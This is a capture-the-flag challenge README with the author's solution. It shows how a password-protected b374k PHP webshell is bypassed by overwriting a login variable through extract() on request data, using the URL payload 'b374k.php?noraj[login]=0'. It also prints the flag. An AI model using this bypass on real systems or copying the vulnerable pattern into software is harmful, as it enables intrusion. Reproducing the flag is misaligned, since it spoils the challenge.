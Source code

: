 # c999shell PHP backdoor

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
24/11/2019  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Une porte peut en cacher une autre`
+ **Category** / **Catégorie**: `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: Medium / Moyen

### Description

```
A very famous backdoor was placed on the website, but hopefully it is password protected.

Flag format: sigsegv{flag}

author: [noraj](https://pwn.by/noraj/)
```

### Hints

- Hint1: b374k.php
- Hint2: vim

## Integration

This challenge require a Docker Engine and Docker Compose.

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build
```

Add `-d` if you want to detach the container.

## Solving

### Author solution

The webshell is `b374k.php`.
The comment on the home page says the hacker used vim.
Let's look for a `.swp` vim backup file: `b374k.php.swp`.

Let's look at the code:

```php
$GLOBALS['pass'] = "09c7018841af655c9b025c0a3e5b167d05f42cd1"; // sha1(md5(pass))
...
$GLOBALS['login'] = 1;

@extract($_REQUEST["noraj"], EXTR_OVERWRITE);
...
if(!function_exists('auth')){
	function auth(){
		if(isset($GLOBALS['pass']) && (trim($GLOBALS['pass'])!='')){
			$c = $_COOKIE;
			$p = $_POST;
			if($GLOBALS['login'] == 0 || isset($p['pass'])){
				$your_pass = sha1(md5($p['pass']));
				if($GLOBALS['login'] == 0 || $your_pass==$GLOBALS['pass']){
					setcookie("pass", $GLOBALS['pass'], time()+36000, "/");
					header("Location: b374k.php");
				}
			}
```

It's no use to try to guess the password, it is `sha1(md5(pass))` of a strong one.

But we can see there is `$GLOBALS['login'] = 1;`, like *login enabled* and then
there are `$GLOBALS['login'] == 0 || isset($p['pass'])` and
`$GLOBALS['login'] == 0 || $your_pass==$GLOBALS['pass']`. So if
`$GLOBALS['login'] == 0` the login feature will be disable and we will gain
access to the shell without using a password.

`extract` allows to _Import variables into the current symbol table from_ and to
overwrite it. So let's use it to overwrite `$GLOBALS['login']` and bypass the
authentication.

The payload is `http://x.x.x.x/b374k.php?noraj[login]=0` or just
`http://x.x.x.x/b374k.php?noraj[login]`.

So we have a webshell but most of useful binaries for listing directories or
reading a file were removed.

We have two options, do it in pure PHP or find a non-removed binary.

For example reading the flag with `diff`:

```
/usr/src/app/>diff /home/noraj/flag.txt /etc/hostname
--- /home/noraj/flag.txt
+++ /etc/hostname
@@ -1 +1 @@
-sigsegv{∙∙∙∙∙·▫▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒnorajᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫▫·∙∙∙∙∙}
\ No newline at end of file
+da3acf79d34a
```

More about backdored backdoors: https://rawsec.ml/en/c99-php-backdoor-backdoored/

## Flag

`sigsegv{∙∙∙∙∙·▫▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒnorajᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫▫·∙∙∙∙∙}`

